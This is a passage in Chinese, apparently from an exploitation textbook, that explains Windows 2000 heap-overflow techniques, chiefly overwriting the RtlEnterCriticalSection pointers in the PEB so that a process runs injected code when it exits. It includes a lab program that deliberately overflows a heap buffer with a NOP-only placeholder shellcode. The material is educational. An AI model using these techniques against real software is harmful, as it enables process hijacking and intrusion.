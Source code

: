 - 函数指针：系统有时会使用一些函数指针，比如调用动态链接库中的函数、C++中的虚函数调用等等。改写这些函数指针后，在函数调用发生后往往可以成功地劫持进程。但可惜的是，不是每一个漏洞都可以使用这项技术，这取决于软件的开发方式。
- P.E.B中线程同步函数的入口地址：天才的黑客们发现在每个进程的 P.E.B 中都存放着
一对同步函数指针，指向 RtlEnterCriticalSection()和 RtlLeaveCriticalSection()，并且在进程退出时会被 ExitProcess()调用。如果能够通过DWORD SHOOT 修改这对指针中的其中一个，那么在程序退出时 ExitProcess() 将会被骗去调用我们的 shellcode。由于 P.E.B 的位置始终不会变化，
这对指针在 P.E.B 中的偏移也始终不变，这使得利用堆溢出开发适用于不同操作系统版本和补
丁版本的 exploit 成为可能。这种方法一经提出就立刻成为了 Windows 平台下堆溢出利用的最经典方法之一，因为静止的靶子比活动的靶子好打得多，我们只需要把枪架好，闭着眼睛扣扳机就是了。

鉴于我们目前的知识体系还不完善，这里只是初步总结了堆溢出的利用方式。在学习完下一章关于异常处理方面的知识后，我们将重新总结内存狙击的利用方式。

### 狙击 P.E.B 中的 RtlEnterCritical-Section() 的函数指针

Windows 为了同步进程下的多个线程，使用了一些同步措施，如锁机制（lock）、信号量（semaphore）、临界区（critical section）等。许多操作都要用到这些同步机制。

当进程退出时，ExitProcess() 函数要做很多善后工作，其中必然需要用到临界区函数 ```RtlEnterCriticalSection()``` 和 ```RtlLeaveCriticalSection()```来同步线程防止“脏数据”的产生。

Windows 2000 中 ExitProcess() 调用临界区函数的方法比较独特，是通过进程环境块 P.E.B 中偏移 0x20 处和 0x24 处存放的函数指针来间接完成的。具体说来就是在 0x7FFDF020 处存放着指向 RtlEnterCriticalSection()的指针，在 0x7FFDF024 处存放着指
向 RtlLeaveCriticalSection()的指针。从 Windows 2003 Server 开始，微软已经修改了这里的实现。。在实验开始前，请您务必看清关于实验平台的说明。

这里，我们不妨以0x7FFDF024处的RtlEnterCriticalSection()指针为目标，联系一下DWORD SHOOT 后，劫持进程、植入代码的全套动作。

用于实验的shellcode：
```c++
#include <windows.h>

char shellcode[] = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

main()
{
	HLOCAL h1 = 0,h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);//三个参数：dest,src,bytes size
	_asm int 3 
	memcpy(h1,shellcode ,0x200) ;
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	return 0;

}
```

实验环境：
- Windows 2000
- 编译器 VC6
- 编译选项 默认
- build版本：release
